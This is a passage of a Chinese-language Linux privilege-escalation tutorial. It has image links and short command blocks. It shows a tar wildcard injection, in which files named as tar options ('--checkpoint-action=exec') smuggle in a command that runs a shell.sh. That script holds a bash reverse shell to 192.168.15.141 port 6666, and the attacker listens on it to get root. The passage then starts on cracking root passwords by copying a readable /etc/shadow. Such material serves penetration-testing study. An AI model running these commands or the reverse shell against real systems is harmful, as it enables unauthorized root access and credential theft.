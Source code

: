 ![image-20241018144509536](操作系统提权/image-20241018144509536.png)		

```
于是在网站根目录下，以命令关键字作为文件名称进行创建。
echo " " > /tmp/www/--checkpoint=1
echo " " > /tmp/www/--checkpoint-action=exec='bash shell.sh'
echo "bash -i >&/dev/tcp/192.168.15.141/6666 0>&1" > /tmp/www/shell.sh
```

![image-20241018141243226](操作系统提权/image-20241018141243226.png)	

```
并且kali进行端口监听。于是即可监听到即可获得root权限。
```

![image-20241018135733666](操作系统提权/image-20241018135733666.png)	

![image-20241018142639043](操作系统提权/image-20241018142639043.png)	

### 破解明文root密码提权

```
提权原理
大多数linux系统的密码都和/etc/passwd和/etc/shadow这两个配置文件息息相关。passwd里面储存了用户，shadow里面是密码的hash。出于安全考虑passwd是全用户可读，root可写的。shadow是仅root可读写的，当管理员的passwd和shadow一些权限配置不当就可能会导致提权
```

```
如果普通用户能够查看/etc/shadow文件，那么可以把全部内容复制下来到一个txt文件中。
```

